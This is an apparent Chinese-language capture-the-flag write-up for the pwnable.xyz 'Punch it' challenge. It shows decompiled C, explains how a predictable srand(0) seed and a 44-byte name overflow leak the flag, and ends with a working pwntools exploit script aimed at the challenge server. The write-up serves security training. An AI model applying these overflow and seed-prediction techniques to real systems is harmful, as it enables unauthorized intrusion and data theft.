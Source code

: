 ### 知识点：

- 伪随机数：

  `srand(seed)`，当seed一样时，`rand()`产生的随机数序列一样



### 关键代码：

```c

undefined8 main(void)

{
  int iVar1;
  size_t __nbytes;
  long in_FS_OFFSET;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  motd_select_character();
  do {
    while( true ) {
      while( true ) {
        printf("score: %ld\n",game_t._48_8_);
        printf("gimmi pawa> ");
        local_18 = 0;
        local_14 = rand();
        __isoc99_scanf(&DAT_00101136,&local_18);           // D
        getchar();
        if (local_18 != local_14) break;                   // E
        puts("draw");
        printf("Save? [N/y]");
        iVar1 = getchar();
        if (iVar1 == 0x79) {
          printf("Name: ");
          __nbytes = strlen(game_t + 4);
          read(0,game_t + 4,__nbytes);                     // F
        }
      }
      if (local_18 <= local_14) break;
      game_t._48_8_ = game_t._48_8_ + 1;
    }
  } while (local_14 <= local_18);
  printf("Sowwy, pleya %s luse, bay bay",0x302044);        // G
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}


void motd_select_character(void)

{
  int iVar1;
  int local_14;
  
  printf("\n\tLet\'s play a punching game? [Y/n] : ");
  iVar1 = getchar();
  if (iVar1 == 0x6e) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  getchar();
  printf("Name: ");
  read(0,game_t + 4,0x2c);                  // A
  printf("Select your character: \n\t1. Goku\n\t2. Saitama\n\t3. Naruto\n\t4. Toriko\n> ");
  iVar1 = getchar();
  if (iVar1 == 0x32) {
    choose_saitama();
    goto LAB_00100e06;
  }
  if (iVar1 < 0x33) {
    if (iVar1 == 0x31) {
      choose_goku();
      goto LAB_00100e06;
    }
  }
  else {
    if (iVar1 == 0x33) {
      choose_naruto();
      goto LAB_00100e06;
    }
    if (iVar1 == 0x34) {
      choose_toriko();
      goto LAB_00100e06;
    }
  }
  puts("Invalid");                          // C
LAB_00100e06:
  srand(game_t._0_4_);                      // B
  printf("Loading");
  for (local_14 = 0; local_14 < 5; local_14 = local_14 + 1) {
    putchar(0x2e);
    sleep(1);
  }
  putchar(10);
  iVar1 = open("./flag",0);
  if (iVar1 != -1) {
    read(iVar1,game_t + 0x38,0x80);
    close(iVar1);
    return;
  }
  puts("error");
                    /* WARNING: Subroutine does not return */
  exit(1);
}


```





### 描述

![game结构体](.assets/Punch it/game结构体.png)


#### 程序流程

- 程序先读取长度为44(0x2c)的name，因为与字段长度一样，所以这里有溢出；
- 然后设置一个随机数种子（B行），选择角色的时候可以输入非菜单项让随机数种子保持为0（C行）；
- 读取flag到图中的位置；

- 进入循环，每次读取一个数字（D行）；

- 读取的数字与`rand()`生成的随机数作比较（因为前面已经设置随机种子为0，所以这里的随机数我们是已知的），根据结果有不同效果：
  - 小于：退出循环，打印name（G行）；
  - 相等：重新读取长度为`strlen(game_t + 4)`的字符串到name的位置（F行）；
  - 大于：score+1；



### 思路

- 已知name是有溢出的，而flag的地址在name后面，中间间隔8字节的score；所以只要将score每个字节覆盖为非零，就能得到flag；

- 最简单的方法是每次输入一个很大的数字，让score+1，一直到0x0101010101010101，也就是72340172838076673次循环，故该方法不成立；
- 因为是小端CPU（低字节在低位），只要将低n个字节覆盖为非零，就能用F行将这n个字节改为0xff ，也就是这n个字节所能表示的最大值，再通过score+1将n+1位设置为1，最终在有限时间内完成目标；



![overflow_score](.assets/Punch it/overflow_score.png)



脚本：

```python
from pwn import *
from ctypes import CDLL

context.terminal = ['tmux', 'splitw', '-h']

libc = CDLL("libc.so.6")
libc.srand(0)

p = remote('svc.pwnable.xyz', 30024)
# p = process('./challenge')
p.sendlineafter(b' : ', b'y')
p.sendafter(b'Name: ', b'a' * 0x2c)
p.sendafter(b'> ', b'5')

# score -> (1 << 8n) - 1
def send_rnd(n):
    rnd = libc.rand()
    p.sendlineafter(b'gimmi pawa> ', str.encode(str(rnd)))
    p.sendafter(b'Save? [N/y]', b'y' + b'a' * 0x2c + p8(0xff) * n)

# score -> score + 1
def send_max():
    libc.rand() # 保持同步
    p.sendlineafter(b'gimmi pawa> ', b'4294967295')

# 让0-len位填满st字符
#
# overflow(8,0xff):
# [0,0,0,0,0,0,0,0] -> [0xff,0xff,0xff,0xff,0xff,0xff,0xff,0xff]
#
# overflow(6, 0x1): 
# [0,0,0,0,0,0,?,?] -> [0x1,0x1,0x1,0x1,0x1,0x1,?,?]
def overflow(len, st):
    if len == 1:
        send_max()
    else:
        overflow(len - 1, 0xff)
        send_max()
        overflow(len - 1, 1)
    if st != 0x1:
        send_rnd(len)

overflow(8, 0x1)
# gdb.attach(p)
p.sendlineafter(b'gimmi pawa> ', b'0')
p.interactive()

```

